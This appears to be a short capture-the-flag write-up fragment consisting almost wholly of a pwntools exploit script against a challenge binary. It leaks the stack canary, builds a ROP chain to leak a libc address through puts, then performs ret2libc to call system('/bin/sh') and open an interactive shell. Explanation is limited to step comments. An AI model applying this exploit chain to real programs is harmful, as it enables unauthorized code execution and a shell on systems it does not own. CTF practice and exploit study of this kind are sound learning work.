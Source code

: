 ```python
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

buffer_len = 168
canary_len = 8
padding_len = 184 - buffer_len - canary_len

# Step 1: Leak the canary
io.sendline(b'1')
io.send(buffer_len*b'A' + b'X')

sleep(0.1)
io.sendline(b'2')
io.recvuntil(b'X')

canary = int.from_bytes(b'\x00'+ io.recv(7),'little')
log.success("canary is "+hex(canary))

# Step 2: leak libc address

payload_base = b'A' * buffer_len + p64(canary) + b'B'* padding_len

rop = ROP(exe)
POP_RDI = rop.find_gadget(['pop rdi','ret'])[0]
main_addr = 0x00400a96
payload = payload_base + p64(POP_RDI) + p64(exe.got['puts']) + p64(exe.plt['puts']) + p64(main_addr)

io.sendline(b'1')
io.send(payload)
sleep(0.1)
io.sendline(b'3')

io.recvuntil(b'TIME TO MINE MIENRALS...\n')
puts_leak = int.from_bytes(io.recvline()[:-1],'little')
log.success("leaked address of puts at "+hex(puts_leak))

# Step 3: ret2libc
libc.address = puts_leak - libc.sym['puts']
binsh = next(libc.search(b'/bin/sh'))
ret = rop.find_gadget(['ret'])[0]
payload = payload_base + p64(ret) + p64(POP_RDI) + p64(binsh) + p64(libc.sym['system'])

sleep(0.1)
io.sendline(b'1')
sleep(0.1)
io.sendline(payload)  
sleep(0.1)
io.sendline(b'3')  

io.clean()
io.interactive()
```

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/c785d9c1-0d91-4f83-8655-9812828891be)

